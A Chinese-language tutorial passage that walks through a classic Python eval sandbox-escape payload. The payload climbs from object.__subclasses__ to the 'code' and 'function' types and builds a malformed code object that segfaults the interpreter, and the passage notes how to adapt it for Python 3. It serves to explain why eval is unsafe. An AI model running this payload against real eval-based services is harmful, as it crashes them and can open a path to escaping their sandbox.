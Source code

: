 我们能够用一段看起来相当模糊的恶意代码来核心转储 Python 解释器。这是怎么发生的？

下面是对这些步骤的一些详细说明。

首先，让我们考虑一下：

```py
>>> [].__class__.__bases__[0]
<type 'object'>
```

这只是基类`object`。因为我们无法访问内置程序，所以这是一种间接的访问方式。

接下来，下面一行代码将加载 Python 解释器中当前加载的`object` 的所有子类：

```py
>>> [c for c in [].__class__.__bases__[0].__subclasses__()]
```

其中，我们想要的是`code` 对象类型。可通过`__name__` 属性检查项目名称来访问：

```py
>>> [c for c in [].__class__.__bases__[0].__subclasses__() if c.__name__ == 'code']
```

以下是使用匿名`lambda`函数实现的相同功能：

```py
>>> (lambda x: [c for c in [].__class__.__bases__[0].__subclasses__() if c.__name__ == x])('code')
[<type 'code'>]
```

接下来，我们要执行这个代码对象。但是，`code`对象不能直接调用。它们需要绑定到函数才能被调用。这是通过将前面的`lambda`函数包装在外部`lambda`函数中实现的：

```py
>>> (lambda f: (lambda x: [c for c in [].__class__.__bases__[0].__subclasses__() if c.__name__ == x])('code'))
<function <lambda> at 0x7f8b16a89668
```

现在我们的内部`lambda`函数可以分两步调用：

```py
>>> (lambda f=(lambda x: [c for c in [].__class__.__bases__[0].__subclasses__() if c.__name__ == x][0]): f('function')(f('code')))
<function <lambda> at 0x7fd35e0db7d0>
```

最后，我们通过传递大部分默认参数，通过这个外部`lambda`函数调用`code`对象。代码字符串作为字符串`BOOM`传递，当然，这是一个伪代码字符串，导致 Python 解释器 segfault，产生核心转储：

```py
>>> (lambda f=(lambda x: 
[c for c in [].__class__.__bases__[0].__subclasses__() if c.__name__ == x][0]): 
f('function')(f('code')(0,0,0,0,'BOOM',(), (),(),'','',0,''),{})())()
Segmentation fault (core dumped)
```

这表明`eval` 在任何上下文中，即使没有内置模块支持，也是不安全的，聪明恶意的黑客可以利用`eval` 使 Python 解释器崩溃，从而可能获得对系统的控制。

请注意，同样的漏洞也适用于 Python 3，但我们需要对`code`对象的参数进行一些修改，就像在 Python 3 中一样，`code`对象需要一个额外的参数。此外，代码字符串和一些参数必须是`byte` 类型。
